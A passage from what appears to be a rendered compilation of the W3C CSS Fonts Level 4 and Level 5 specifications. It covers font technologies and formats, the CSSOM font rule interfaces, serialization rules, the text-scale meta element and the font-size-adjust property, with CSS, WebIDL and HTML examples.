The **features-opentype**, **features-aat** and **features-graphite** techs refer to support for font features, commonly implemented in [OPENTYPE] with the `GSUB` and the `GPOS` tables, as well as in [AAT-FEATURES] using the `morx` and `kerx` tables and [GRAPHITE] with the `Silf`, `Glat`, `Gloc`, `Feat` and `Sill` tables as documented in the [Graphite Table Format](https://graphite.sil.org/). The section on [§ 6 Font Feature Properties](#css-fonts-4:font-rend-props) describes properties that interact with these facilities.

The **variations** tech refers to the support of font variations, commonly implemented in [OPENTYPE] with the `avar`, `cvar`, `fvar`, `gvar`, `HVAR`, `MVAR`, `STAT`, and `VVAR` tables, as well as in [AAT-FEATURES] using the `avar`, `cvar`, `fvar`, `gvar` tables. The section on [§ 2 Basic Font Properties](#css-fonts-4:basic-font-props) as well as the section on [§ 8 Font Variation Properties](#css-fonts-4:font-variation-props) describe properties that interact with these facilities.

The **color-colrv0**, **color-colrv1**, **color-svg**, **color-sbix** and **color-cbdt** technologies refers to various types of color font file technologies. Each one represents a table (`COLR`, `SVG`, `sbix` or `CBDT`) inside [OPENTYPE] or [AAT-FEATURES] fonts which must be supported to satisfy this requirement.

The **palettes** tech refers to support for font palettes, commonly implemented in the [OPENTYPE] and [AAT-FEATURES] with the `CPAL` table. The section on [§ 9 Color Font Support](#css-fonts-4:color-font-support) describes properties that interact with these facilities.

The **incremental** tech refers to client support for incremental font transfer [IFT].

For background on these, see [PFE-report].

Web authors can specify the `tech()` function inside an `@font-face` `src` descriptor to indicate that support is required for correct rendering of a font. This mechanism can be used for gracefully falling back to an ancillary font when requested support is not present.

> **Example:** This `@font-face` block shows how to use a color font if support is present on the user agent, and falls back to a non-color-font if support is not present.
>
> ```
> @font-face {
>   font-family: "Trickster";
>   src: url("trickster-COLRv1.otf") format(opentype) tech(color-COLRv1),
>   url("trickster-outline.otf") format(opentype);
> }
> ```

#### 11.2. Font formats {#css-fonts-4:font-format-definitions}

Format strings defined by this specification are as follows. The `<font-format>` values are synonyms for the formats below.

| String | Font Format | Common extensions | Common media types |
| --- | --- | --- | --- |
| "collection" | [OpenType Collection](https://docs.microsoft.com/en-us/typography/opentype/spec/otff#collections) | .otc,.ttc | [font/collection](https://www.iana.org/assignments/media-types/font/collection) |
| "embedded-opentype" | [Embedded OpenType](https://www.w3.org/Submission/2008/SUBM-EOT-20080305/) | .eot | [application/vnd.ms-fontobject](https://www.iana.org/assignments/media-types/application/vnd.ms-fontobject) |
| "opentype" | [OpenType](https://www.microsoft.com/typography/otspec/default.htm) | .ttf, .otf | [font/otf](https://www.iana.org/assignments/media-types/font/otf), [font/ttf](https://www.iana.org/assignments/media-types/font/ttf) |
| "svg" | [SVG Font](https://www.w3.org/TR/SVG11/fonts.html) (deprecated) | .svg, .svgz | [image/svg+xml](https://www.iana.org/assignments/media-types/image/svg+xml) |
| "truetype" | [TrueType](https://www.microsoft.com/typography/otspec/default.htm) | .ttf | [font/ttf](https://www.iana.org/assignments/media-types/font/ttf) |
| "woff" | [WOFF 1.0 (Web Open Font Format)](https://www.w3.org/TR/WOFF/) | .woff | [font/woff](https://www.iana.org/assignments/media-types/font/woff) |
| "woff2" | [WOFF 2.0 (Web Open Font Format)](https://www.w3.org/TR/WOFF2/) | .woff2 | [font/woff2](https://www.iana.org/assignments/media-types/font/woff2) |

Given the overlap in common usage between TrueType and OpenType, the format hints "truetype" and "opentype" must be considered as synonymous; a format hint of "opentype" does not imply that the font contains Postscript CFF style glyph data or that it contains OpenType layout information (see [Appendix A](#css-fonts-4:platform-props-to-css) for more background on this).

### 12.  Object Model {#css-fonts-4:object-model}

The contents of `@font-face` and `@font-feature-values` rules can be accessed via the following extensions to the CSS Object Model.

#### 12.1.  The `CSSFontFaceRule` interface {#css-fonts-4:om-fontface}

The `CSSFontFaceRule` interface represents a `<@font-face>` rule.

```webidl
[Exposed=Window]
interface CSSFontFaceDescriptors : CSSStyleDeclaration {
  attribute [LegacyNullToEmptyString] CSSOMString src;
  attribute [LegacyNullToEmptyString] CSSOMString fontFamily;
  attribute [LegacyNullToEmptyString] CSSOMString font-family;
  attribute [LegacyNullToEmptyString] CSSOMString fontStyle;
  attribute [LegacyNullToEmptyString] CSSOMString font-style;
  attribute [LegacyNullToEmptyString] CSSOMString fontWeight;
  attribute [LegacyNullToEmptyString] CSSOMString font-weight;
  attribute [LegacyNullToEmptyString] CSSOMString fontStretch;
  attribute [LegacyNullToEmptyString] CSSOMString font-stretch;
  attribute [LegacyNullToEmptyString] CSSOMString fontWidth;
  attribute [LegacyNullToEmptyString] CSSOMString font-width;
  attribute [LegacyNullToEmptyString] CSSOMString unicodeRange;
  attribute [LegacyNullToEmptyString] CSSOMString unicode-range;
  attribute [LegacyNullToEmptyString] CSSOMString fontFeatureSettings;
  attribute [LegacyNullToEmptyString] CSSOMString font-feature-settings;
  attribute [LegacyNullToEmptyString] CSSOMString fontVariationSettings;
  attribute [LegacyNullToEmptyString] CSSOMString font-variation-settings;
  attribute [LegacyNullToEmptyString] CSSOMString fontNamedInstance;
  attribute [LegacyNullToEmptyString] CSSOMString font-named-instance;
  attribute [LegacyNullToEmptyString] CSSOMString fontDisplay;
  attribute [LegacyNullToEmptyString] CSSOMString font-display;
  attribute [LegacyNullToEmptyString] CSSOMString fontLanguageOverride;
  attribute [LegacyNullToEmptyString] CSSOMString font-language-override;
  attribute [LegacyNullToEmptyString] CSSOMString ascentOverride;
  attribute [LegacyNullToEmptyString] CSSOMString ascent-override;
  attribute [LegacyNullToEmptyString] CSSOMString descentOverride;
  attribute [LegacyNullToEmptyString] CSSOMString descent-override;
  attribute [LegacyNullToEmptyString] CSSOMString lineGapOverride;
  attribute [LegacyNullToEmptyString] CSSOMString line-gap-override;
};

[Exposed=Window]
interface CSSFontFaceRule : CSSRule {
  [SameObject, PutForwards=cssText] readonly attribute CSSFontFaceDescriptors style;
};
```

#### 12.2.  The `CSSFontFeatureValuesRule` interface {#css-fonts-4:om-fontfeaturevalues}

The `CSSRule` interface is extended as follows:

```webidl
partial interface CSSRule {
  const unsigned short FONT_FEATURE_VALUES_RULE = 14;
};
```

The `CSSFontFeatureValuesRule` interface represents a `@font-feature-values` rule.

```webidl
[Exposed=Window]
interface CSSFontFeatureValuesRule : CSSRule {
  attribute CSSOMString fontFamily;
  readonly attribute CSSFontFeatureValuesMap annotation;
  readonly attribute CSSFontFeatureValuesMap ornaments;
  readonly attribute CSSFontFeatureValuesMap stylistic;
  readonly attribute CSSFontFeatureValuesMap swash;
  readonly attribute CSSFontFeatureValuesMap characterVariant;
  readonly attribute CSSFontFeatureValuesMap styleset;
  readonly attribute CSSFontFeatureValuesMap historicalForms;
};

[Exposed=Window]
interface CSSFontFeatureValuesMap {
  maplike<CSSOMString, sequence<unsigned long>>;
  undefined set(CSSOMString featureValueName,
    (unsigned long or sequence<unsigned long>) values);
};
```

****`fontFamily`**,  of type CSSOMString**

: The list of one or more font families for which a given set of feature values is defined.

****`annotation`**,  of type CSSFontFeatureValuesMap, readonly *etc.***

: Maps of feature values associated with feature value names for a given `font-variant-alternates` value type

To **get the feature value map attribute**, given a string *type* naming a feature value block without the leading U+0040 (@):

1. Set *type* to the result of ASCII lowercasing *type*.
2. Return the `CSSFontFeatureValuesRule` attribute indicated by *type* in the following table:

   | *type* | Attribute |
   | --- | --- |
   | "`swash`" | `swash` |
   | "`stylistic`" | `stylistic` |
   | "`ornaments`" | `ornaments` |
   | "`annotation`" | `annotation` |
   | "`character-variant`" | `characterVariant` |
   | "`styleset`" | `styleset` |
   | "`historical-forms`" | `historicalForms` |

When a `CSSFontFeatureValuesRule` object *rule* is created from a parsed `@font-feature-values` at-rule *parsedRule*, populate font feature value maps given *rule* and *parsedRule*.

To **populate font feature value maps**, given a newly created `CSSFontFeatureValuesRule` *rule* and a parsed `@font-feature-values` at-rule *parsedRule*:

1. For each valid feature value block *block* in *parsedRule*’s list of child rules, in source order:

  1. Let *type* be *block*’s at-rule name.
  2. Let *attribute* be the result of running get the feature value map attribute given *type*.
  3. Let *map* be *rule*’s *attribute* attribute’s value’s map entries.
  4. For each valid font feature value declaration *decl* in *block*’s list of declarations, in source order:

    1. Let *name* be *decl*’s name, as defined for a declaration.
    2. Let *indexes* be a list containing the numeric value of each `<font-feature-index>` in *decl*’s parsed value, in order.
    3. Set *map*[*name*] to *indexes*.

> **Note:** Setting an existing map entry replaces its value without changing its position. Repeated blocks therefore merge, with names in first-occurrence order and their last-defined values. Invalid declarations neither reserve a position nor replace an existing value.

Each value map attribute of `CSSFontFeatureValuesRule` reflects the values defined via a corresponding feature value block. Thus, the `annotation` attribute contains the values contained within a `@annotation` feature value block, the `ornaments` attribute contains the values contained with a `@ornaments` feature value block, and so forth.

The `CSSFontFeatureValuesMap` interface uses the [default map class methods](https://webidl.spec.whatwg.org/#js-maplike) but the `set()` method has different behavior. It takes a sequence of unsigned integers and associates it with a given `featureValueName`. The method behaves the same as the default map class method except that a single unsigned long value is treated as a sequence of a single value. The method throws an exception if an invalid number of values is passed in. If the associated feature value block only allows a limited number of values, the `set()` method throws an `InvalidAccessError` exception when the input sequence to `set()` contains more than the limited number of values. See the description of [multi-valued feature value definitions](#css-fonts-4:multi-value-features) for details on the maximum number of values allowed for a given type of feature value block.

> **Note:** The `get()` method always returns a sequence of values, even if the sequence only contains a single value.

#### 12.3.  The `CSSFontPaletteValuesRule` interface {#css-fonts-4:om-fontpalettevalues}

The `CSSFontPaletteValuesRule` interface represents a `@font-palette-values` rule.

```webidl
[Exposed=Window]
  interface CSSFontPaletteValuesRule : CSSRule {
    readonly attribute CSSOMString name;
    readonly attribute CSSOMString fontFamily;
    readonly attribute CSSOMString basePalette;
    readonly attribute CSSOMString overrideColors;
  };
```

### 13.  Serializing {#css-fonts-4:serializing}

#### 13.1.  Serializing font-related properties {#css-fonts-4:serializing-properties}

Unless specifically noted for individual properties, the properties defined in this module follow the principles of [CSSOM § 6.7.2 Serializing CSS Values](#cssom-1:serializing-css-values).

#### 13.2.  Serializing font-related at-rules {#css-fonts-4:serializing-at-rules}

Unless specifically noted for individual descriptors, the descriptors defined for at-rules in this module follow the principles of [CSSOM § 6.7.2 Serializing CSS Values](#cssom-1:serializing-css-values).

In particular, following the principle of shorter representation: for descriptors which accept a range of values, if the start and end values are the same (the range is zero) the descriptor is serialized as a single value, not a range.

> **Example:** For example, the rule
>
> ```
> @font-face {
>   font-family: "foo";
>   font-weight: 200 200;
> }
> ```
>
> would serialize as
>
> ```
> @font-face {
>   font-family: "foo";
>   font-weight: 200;
> }
> ```

To serialize a CSS rule representing an `@font-feature-values` rule *rule*:

1. Let *s* be "`@font-feature-values`".
2. Append U+0020 SPACE to *s*.
3. Append the value of *rule*’s `fontFamily` attribute to *s*.
4. Append U+0020 SPACE followed by U+007B ({) to *s*.
5. If *rule* has any valid `font-display` declarations:

  1. Let *decl* be the last such declaration in source order.
  2. Let *value* be the result of serializing a CSS component value given *decl*’s parsed value as a keyword.
  3. Append U+0020 SPACE to *s*.
  4. Append the result of serializing a CSS declaration with property name "`font-display`" and value *value* to *s*.
6. For each *type* of « "`swash`", "`stylistic`", "`ornaments`", "`annotation`", "`character-variant`", "`styleset`", "`historical-forms`" »:

  1. Let *attribute* be the result of running get the feature value map attribute given *type*.
  2. Let *map* be *rule*’s *attribute* attribute’s value’s map entries.
  3. If *map* is empty, continue.
  4. Append U+0020 SPACE, U+0040 (@), *type*, U+0020 SPACE, and U+007B ({) to *s*.
  5. For each *name* → *indexes* of *map*:

    1. Append U+0020 SPACE to *s*.
    2. Append the result of serializing an identifier given *name* to *s*.
    3. Append U+003A (:) followed by U+0020 SPACE to *s*.
    4. Let *serializedIndexes* be an empty list.
    5. For each *index* of *indexes*:

      1. Append the result of serializing a CSS component value given *index* as an `<integer>` to *serializedIndexes*.
    6. Append the result of concatenating *serializedIndexes* with separator U+0020 SPACE to *s*.
    7. Append U+003B (;) to *s*.
  6. Append U+0020 SPACE followed by U+007D (}) to *s*.
7. Append U+0020 SPACE followed by U+007D (}) to *s*.
8. Return *s*.

Specifications defining additional feature value block types must specify their place in the serialization order above.

> **Example:** For example, the declaration:
>
> ```
> /* Repeated declaration names, and multiple blocks of the same type*/
> @font-feature-values foo {
>   @swash { pretty: 0; cool: 2; }
>   @swash { pretty: 1; }
> }
> ```
>
> would be serialized as:
>
> ```
> @font-feature-values foo { @swash { pretty: 1; cool: 2; } }
> ```

### Appendix A: Mapping platform font properties to CSS properties {#css-fonts-4:platform-props-to-css}

*This appendix is included as background for some of the problems and situations that are described in other sections. It should be viewed as informative only.*

Font properties in CSS are designed to be independent of the underlying font formats used; they can be used to specify bitmap fonts, Type1 fonts, SVG fonts in addition to the common TrueType and OpenType fonts. But there are facets of the TrueType and OpenType formats that often cause confusion for authors and present challenges to implementers on different platforms.

Originally developed at Apple, TrueType [TRUETYPE] was designed as an outline font format for both screen and print. Microsoft joined Apple in developing the TrueType format and both platforms have supported TrueType fonts since then. Font data in the TrueType format consists of a set of tables distinguished with common four-letter tag names, each containing a specific type of data. For example, naming information, including copyright and license information, is stored in the `name` table. The character map (`cmap`) table contains a mapping of character encodings to glyphs. Apple later added additional tables for supporting enhanced typographic functionality; these are now called Apple Advanced Typography, or AAT, fonts. Microsoft and Adobe developed a separate set of tables for advanced typography and called their format OpenType [OPENTYPE]. The OpenType specification is standardized at ISO as the Open Font Format [OPEN-FONT-FORMAT].

In many cases the font data used under Microsoft Windows or Linux is slightly different from the data used under Apple’s Mac OS X because the TrueType format allowed for explicit variation across platforms. This includes font metrics, names and character map data.

Specifically, font family name data is handled differently across platforms. For TrueType and OpenType fonts these names are contained in the `name` table, in name records with name ID 1. Multiple names can be stored for different locales, but Microsoft recommends fonts always include at least a US English version of the name. On Windows, Microsoft made the decision for backwards compatibility to limit this family name to a maximum of four faces; for larger groupings the "preferred family" (name ID 16) or "WWS family" (name ID 21) can be used. Other platforms such as OSX don’t have this limitation, so the family name is used to define all possible groupings.

Other name table data provides names used to uniquely identify a specific face within a family. The full font name (name ID 4) and the Postscript name (name ID 6) describe a single face uniquely. For example, the bold face of the Gill Sans family has a fullname of "Gill Sans Bold" and a Postscript name of "GillSans-Bold". There can be multiple localized versions of the fullname for a given face, but the Postscript name is always a unique name made from a limited set of ASCII characters.

On various platforms, different names are used to search for a font. For example, with the Windows GDI CreateIndirectFont API, either a family or fullname can be used to lookup a face, while on Mac OS X the CTFontCreateWithName API call is used to lookup a given face using the fullname and Postscript name. Under Linux, the fontconfig API allows fonts to be searched using any of these names. In situations where platform API’s automatically substitute other font choices, it may be necessary to verify a returned font matches a given name.

The weight of a given face can be determined via the usWeightClass field of the OS/2 table or inferred from the style name (name ID 2). Likewise, the width can be determined via the usWidthClass of the OS/2 table or inferred from the style name. For historical reasons related to synthetic bolding at weights 200 or lower with the Windows GDI API, font designers have sometimes skewed values in the OS/2 table to avoid these weights.

Rendering complex scripts that use contextual shaping such as Thai, Arabic and Devanagari requires features present only in OpenType or AAT fonts. Currently, complex script rendering is supported on Windows and Linux using OpenType font features while both OpenType and AAT font features are used under Mac OS X.

### 16.  Accessibility Considerations {#css-fonts-4:a11y}

The use of fonts to provide a visual rendering of text should not, in general, impact accessibility. For example, people using a screen reader to render text to speech will not download fonts, and are unaffected by what those fonts would have contained.

However, this assumes that the semantics conveyed by the font glyphs and the semantics conveyed by the characters are the same.

Historically, this has not always been the case. For example, in the early days of the Web it was common to use fonts (such as "Symbol", though others were used) to make Latin letters have Greek glyphs; while this worked visually, it would not work with a screen reader and text was also hard to search or index because the mapping was font-specific. With the rise of Unicode, it is now standard practice to use Greek characters for Greek text, and for Greek glyphs in fonts to map to Greek characters.

Sadly, but avoidably, this practice persists with badly designed icon fonts. For example, such a font might put a "printer" icon on the Latin letter "P". This practice scatters meaningless letters through the text, which negatively affects text searching and indexing, gives hard to understand rendering if the icon font does not load, and impedes screen readers. A well designed font must assign such icons to semantically meaningful characters. For example, the printer icon might be assigned to the string "printer" or to the Unicode character 🖨 U+1F5A8 (PRINTER).

---

## CSS Fonts Module Level 5 {#css-fonts-5}

- **Shortname:** `css-fonts-5`
- **Editor's Draft:** [https://drafts.csswg.org/css-fonts-5/](https://drafts.csswg.org/css-fonts-5/)
- **Published TR:** [https://www.w3.org/TR/css-fonts-5/](https://www.w3.org/TR/css-fonts-5/)
- **W3C Status:** ED (exploring)
- **Last Edited:** 2026-11-04
- **Diff Specification Over:** [CSS Fonts Module Level 4 (`css-fonts-4`)](#css-fonts-4)

### 1.  Introduction {#css-fonts-5:introduction}

The CSS Fonts Level 4 specification ([CSS-FONTS-4]) describes the controls CSS provides for selecting and using fonts within documents, including support for variable fonts and color fonts. The ideas here are additions or modifications to the properties and rules defined in CSS Fonts Level 4.

This specification is currently a delta to the CSS Fonts Level 4 specification. Do not assume that if something is not here, it has been dropped.

#### 1.1.  Value Definitions {#css-fonts-5:values}

This specification follows the [CSS property definition conventions](#css2:property-defs) from [CSS2] using the [value definition syntax](#css-values-4:value-defs) from [CSS-VALUES-3]. Value types not defined in this specification are defined in CSS Values & Units [CSS-VALUES-3]. Combination with other CSS modules may expand the definitions of these value types.

In addition to the property-specific values listed in their definitions, all properties defined in this specification also accept the CSS-wide keywords as their property value. For readability they have not been repeated explicitly.

### 2.  Text-Scale `meta` element {#css-fonts-5:text-scale-meta}

User agents must calculate the computed value of `medium` by multiplying 16px by the **text scale factor**. User agents must also apply this factor when determining the computed sizes of the other `<absolute-size>` keywords. However, user agents should scale these other keywords non-linearly to preserve readability.

> **Note:** Applying a linear scale to all keywords would render large fonts excessively large. See the  [WCAG discussion on minimum and maximum critical font sizes](https://github.com/w3c/wcag3/issues/261#issuecomment-2598860630).

A document with a `meta` tag whose `name` attribute is an ASCII case-insensitive match for **`"text-scale"`** is recognized as controlling the text scale factor.

The value of the `content` attribute must be an ASCII case-insensitive match for one of the recognized keywords. Otherwise the tag is ignored.

Documents without this `meta` tag will have an assumed default value of legacy.

> **Example:** ```html
> <meta name="text-scale" content="scale" />
> ```

There must not be more than one `meta` element with its `name` attribute value set to an ASCII case-insensitive match for text-scale per document.

#### 2.1.  Keywords {#css-fonts-5:text-scale-meta-keywords}

The recognized keywords in the text-scale `meta` element are:

****legacy****

: The `preferred-text-scale` environment variable returns the user’s OS-level font factor on mobile devices, but 1 on desktop devices. text scale factor incorporates UA-level font preferences but OS-level font preferences are ignored.

  > **Note:** Equivalent to omitting a text-scale `meta` tag or including an unrecognized content attribute keyword.

****scale****

: The `preferred-text-scale` environment variable returns the user’s OS-level font preferences. text scale factor incorporates both UA-level and OS-level font preferences.

#### 2.2. The legacy keyword {#css-fonts-5:legacy-keyword}

When the value of the text-scale content attribute is legacy, the text scale factor is the font scale factor the user has chosen from any settings provided *only* by the user agent. The `preferred-text-scale` environment variable value must be 1 on desktop platforms.

On mobile platforms:

- If the operating system provides a text scale setting AND the UA hasn’t already applied that factor to the `medium` font size, the `preferred-text-scale` environment variable returns the multiplier that the user has chosen in the operating system’s text scale setting.

  > **Note:** At the time of publishing, all combinations of Android, iOS, Firefox, Safari, and Chrome satisfy this first condition.
- Otherwise the `preferred-text-scale` environment variable returns 1.

#### 2.3. The `scale` keyword {#css-fonts-5:scale-keyword}

When the value of the text-scale content attribute is scale, the text scale factor matches the user’s preferred paragraph text size (as determined from a combination of OS and UA preferences) divided by 16px.

The `preferred-text-scale` environment variable must return the text scale factor.

Further, when the value of the text-scale content attribute is scale, the user agent should skip all font-sizing interventions it would otherwise perform in an attempt to automatically honor the user’s preferences. E.g. text autosizing on mobile (See [CSS Size Adjustment 1 § 1 Introduction](#css-size-adjust-1:intro)) and full-application zoom ([popular browsers do this on Windows)](https://github.com/w3c/csswg-drafts/blob/main/css-env-1/explainers/env-preferred-text-scale.md#windows-11).

> **Note:** Authors are expected to use `<meta name="text-scale" content="scale">` in their documents so that the `medium` font size will reflect the user’s font preferences, whether those are specified at the OS level or the UA level. The author will then be able to use `rem` and `em` throughout the page to honor the user’s font preferences. Authors must only use this if they have tested their website with scaled text. This requires care to do correctly, given the very large font sizes some low-vision users need. Consider the extreme case of an iPhone Mini set to iOS’s largest font size of 53px. Only ~12-15 characters fit on a line.

> **Example:** Assuming a page hasn’t altered the `:root` font size with an absolute length unit like `px`, content sized with `rem` units will be relative to the preferred text scale
>
> ```html
> <!DOCTYPE html>
> <html> <!-- leave this element's font-size as the default -->
>   <head>
>     <meta name="text-scale" content="scale" />
>   </head>
>   <body>
>     <div style="font-size: 1rem;">
>       This font size obeys the user's font preferences, **whether
>       those preferences are specified at the operating system level
>       or the user agent level**
>     </div>
>     <div style="font-size: 20px;">
>       This font size does NOT respect the user's font preferences.
>       <div style="font-size: 1rem;">
>         But this font size does!
>       </div>
>     </div>
>   </body>
> </html>
> ```

> **Example:** If an element such as a heading already has large text, it is likely already large enough for a user who needs a high text scale to read. If the large text scales at the same rate as the body text, it could become too large to comfortably fit in the user’s viewport.
>
> Therefore, authors should consider using a dampening formula to reduce the rate that large text scales. There are various mathematical approaches to achieve this; one possible formula is demonstrated below.
>
> ```html
> <meta name="viewport" content="width=device-width">
> <meta name="text-scale" content="scale">
> <style>
> h1 {
>   /*
>     Multiply the 2em baseline by a dampening factor to ensure headers
>     scale up slower than the body text, preventing them from becoming
>     too large.
>
>     The two values in the calc() (0.5 and 0.5) must sum to 1.0, so the
>     multiplier evaluates to exactly 1 at a 1x text scale. As the user
>     increases their text scale, the multiplier shrinks towards the first
>     number (0.5). Because the shrinking multiplier is applied to a
>     growing font size, the header continues to grow, but its growth
>     rate is dampened.
>
>     Here are the resulting font sizes at various text scale factors:
>         h1      body
>         ----    ----
>   1x    32px    16px
>   1.5x  40px    24px
>   2x    48px    32px
>   3x    64px    48px
>   3.5x  72px    56px
>   */
>   --dampen-factor: calc(0.5 + (0.5 / env(preferred-text-scale)));
>   font-size: calc(2rem * var(--dampen-factor));
> }
>
> </style>
> <h1>Header</h1>
> This is some body text. The header grows slower than the body text.
> ```
>
> 

> **Example:** An extreme version of the above, some text content that starts larger than body text can and should become smaller than body text as the user’s font size increases. In this floating button example, the button text is larger than the body text at 1x but gets smaller at ~2.5x font scale.
>
> ```html
> <meta name="text-scale" content="scale" />
> <style>
> .floating-action-button {
>   position: fixed;
>   top: 30px;
>   right: 30px;
>   /*
>     Grow slower than the h1 example. The two numbers must still add up
>     to 1.0, but using a smaller first number (0.4 instead of 0.5)
>     makes the text scale up at a slower rate.
>   */
>   --dampen-factor: calc(0.4 + (0.6 / env(preferred-text-scale)));
>   font-size: calc(1.5rem * var(--dampen-factor));
>   /* Resulting font sizes at various text scale factors:
>         button    body
>         ------    ----
>   1x    24px      16px
>   1.5x  28.8px    24px
>   2x    33.6px    32px
>   3x    43.2px    48px    <-- body passes button: inversion! */
> }
> </style>
> <button class="floating-action-button">➕Add</button>
> ```

### 3.  Basic Font Properties {#css-fonts-5:basic-font-props}

> **Issue:** [[Issue #126]](https://github.com/w3c/csswg-drafts/issues/126)

#### 3.1.  Font family: the `font-family` property {#css-fonts-5:font-family-prop}

##### 3.1.1.  Generic font families {#css-fonts-5:generic-font-families}

In addition to the [CSS Fonts 4 § 2.1.5 Generic font families](#css-fonts-4:generic-font-families) in CSS Fonts Level 4, the following new generic font families are also defined.

> **Issue:** [[Issue #4910]](https://github.com/w3c/csswg-drafts/issues/4910)

****xxx****

: Placeholder text for the xxx generic font family.

> **Issue:** [[Issue #4566]](https://github.com/w3c/csswg-drafts/issues/4566)

#### 3.2. Font weight: the `font-weight` property {#css-fonts-5:font-weight-prop}

> **Issue:** [[Issue #2690]](https://github.com/w3c/csswg-drafts/issues/2690)

#### 3.3.  Font style: the `font-style` property {#css-fonts-5:font-style-prop}

> **Issue:** [[Issue #4044]](https://github.com/w3c/csswg-drafts/issues/4044)

#### 3.4.  Relative sizing: the `font-size-adjust` property {#css-fonts-5:font-size-adjust-prop}

| Field | Value |
| --- | --- |
| Name: | **font-size-adjust** |
| [Value:](#css-values-4:value-defs) | none \| [ ex-height \| cap-height \| ch-width \| ic-width \| ic-height ]? [ from-font \| `<number [0,∞]>` ] |
| [Initial:](#css-cascade-6:initial-values) | none |
| [Applies to:](#css-cascade-5:applies-to) | all elements and text |
| [Inherited:](#css-cascade-5:inherited-property) | yes |
| [Percentages:](#css-values-4:percentages) | N/A |
| [Computed value:](#css-cascade-6:computed) | the keyword `none`, or a pair of a metric keyword and a `<number>` |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | discrete if the keywords differ, otherwise by computed value type |

For any given font size, the apparent size and effective legibility of text varies across fonts as a function of their design. For example, for bicameral scripts such as Latin or Cyrillic that distinguish between upper and lowercase letters, the relative height of lowercase letters compared to their uppercase counterparts is a determining factor of legibility. In situations where font fallback occurs, fallback fonts might not share the same ratios as the desired font family for key typographic metrics, and will thus appear to be a different size and possibly be less readable.

> **Issue:** [[Issue #8792]](https://github.com/w3c/csswg-drafts/issues/8792)

The `font-size-adjust` property provides a way to preserve the readability and apparent size of text when font fallback occurs. It does this by adjusting the used font size so that the specified metric is the same regardless of the font used.

Values have the following meanings:

****none****

: No special `font-size` adjustment is applied.

****ex-height | cap-height | ch-width | ic-width | ic-height****

: Specifies the font metric to normalize, defaulting to `ex-height`:

  ****ex-height****

  : Normalize the **aspect value** of the fonts, using the x-height divided by the font size.

  ****cap-height****

  : Normalize the cap-height of the fonts, using the cap-height by the font size.

  ****ch-width****

  : Normalize the horizontal narrow pitch of the fonts, using the advance width of “0” (ZERO, U+0030) divided by the font size.

  ****ic-width****

  : Normalize the horizontal wide pitch of the font, using the advance width of “水” (CJK water ideograph, U+6C34) divided by the font size.

  ****ic-height****

  : Normalize the vertical wide pitch of the font, using the advance height of “水” (CJK water ideograph, U+6C34) divided by the font size.

  > **Issue:** If the required font metric cannot be derived from a font, then that font’s size is not adjusted. [[Issue #6384]](https://github.com/w3c/csswg-drafts/issues/6384)

****`<number [0,∞]>`****

: Each font’s used size is normalized to match the chosen font metric to this specified proportion of the computed `font-size`. In other words, for each glyph, the adjusted font size to use *u* is calculated as:

  ```
  u  =  ( m / m′ ) s
  ```

  where:

  ```
  s  =  computed 'font-size!!property' value
  m  =  metric as specified by the 'font-size-adjust' property
  m′ =  metric as specified in the actual font
  u  =  adjusted font-size to use
  ```

  Negative values are invalid.

****from-font****

: Computes to the `<number>` corresponding to the specified metric of the first available font, if it exists. Otherwise, the same as `none`.

> **Example:** The style defined below defines Verdana as the desired font family, but if Verdana is not available Futura or Times will be used. One paragraph also has font-size-adjust specified.
>
> ```
> p {
>   font-family: Verdana, Futura, Times;
> }
> p.adj {
>   font-size-adjust: 0.545;
> }
>
> <p>Lorem ipsum dolor sit amet, ...</p>
> <p class="adj">Lorem ipsum dolor sit amet, ...</p>
> ```
>
> Verdana has a relatively high aspect value of 0.545, meaning lowercase letters are relatively tall compared to uppercase letters, so at small sizes text appears legible. Times has a lower aspect value of 0.447, and so if fallback occurs, the text will be less legible at small sizes than Verdana unless font-size-adjust is also specified.
>
> > **Note:** For text which uses diacritics, too large an x-height will actually decrease legibility as the diacritics become cramped.
>
> How text rendered in each of these fonts compares is shown below, the columns show text rendered in Verdana, Futura and Times. The same font-size value is used across cells within each row and red lines are included to show the differences in x-height. In the upper half, each row is rendered in the same font-size value. The same is true for the lower half, but in this half the `font-size-adjust` property is also set to 0.545, so that the actual font size is adjusted to preserve the x-height of Verdana across each row. Note how small text remains relatively legible across each row in the lower half.
>
> 
>
> Text with and without the use of `font-size-adjust`

The value of `font-size-adjust` affects the used value of `font-size` but does not affect the computed value. Therefore it can affect the size of relative units that are based on font metrics such as `ex` and `ch` but does not affect the size of `em` units. Since numeric values of `line-height` refer to the computed size of `font-size`, `font-size-adjust` also does not affect the used value of `line-height`.

> **Note:** Since `font-size-adjust` does not factor into the `line-height`, specifying a line height too tightly can result in overlapping lines of text. For example, when a fallback font with a low aspect value is normalized to match one with a high aspect value, its ascenders and descenders are likely to extend outside the line box with `line-height: 1`.

The `font-size-adjust` adjustment applies to any font that is selected but in typical usage it would be based on the corresponding metric value of the first (most desired) font in the `font-family` list. If this is specified accurately, the `(m/m′)` term in the adjustment formula will resolve to `1` for the first font and no adjustment occurs for that font; and the rest of the fonts will resolve to match. If the value is specified inaccurately, text rendered using the first font in the family list will display differently in older user agents that don’t support `font-size-adjust`.

> **Example:** Authors can calculate the aspect value for a given font by comparing spans with the same content but different `font-size-adjust` properties. If the same font-size is used, the spans will match when the `font-size-adjust` value is accurate for the given font.
>
> Two spans with borders are used to determine the aspect value of a font. The `font-size` is the same for both spans but the `font-size-adjust` property is specified only for the right span. Starting with a value of 0.5, the aspect value can be adjusted until the borders around the two letters line up.
>
> ```
> p {
>   font-family: Futura;
>   font-size: 500px;
> }
>
> span {
>   border: solid 1px red;
> }
>
> .adjust {
>   font-size-adjust: 0.5;
> }
>
> <p><span>b</span><span class="adjust">b</span></p>
> ```
>
> 
>
> Futura with an aspect value of 0.5
>
> The box on the right is a bit bigger than the one on the left, so the aspect value of this font is something less than 0.5. Adjust the value until the boxes align.

> **Note:** If the specified metric has been overridden in `@font-face`, e.g. by `size-adjust`, then the overridden metric will be used in the `font-size-adjust` calculation. Consequently, applying `font-size-adjust` and `size-adjust` together means that `size-adjust` appears to have no effect.

### 4.  Font Resources {#css-fonts-5:font-resources}

#### 4.1.  The **`@font-face`** rule {#css-fonts-5:font-face-rule}

> **Note:** Descriptors are applied per-font rather than per-element. Multiple fonts can be used within an individual element e.g. for characters not supported by the first available font.

#### 4.2. Font reference: the `src` descriptor {#css-fonts-5:src-desc}

##### 4.2.1. Parsing the `src` descriptor {#css-fonts-5:font-face-src-parsing}

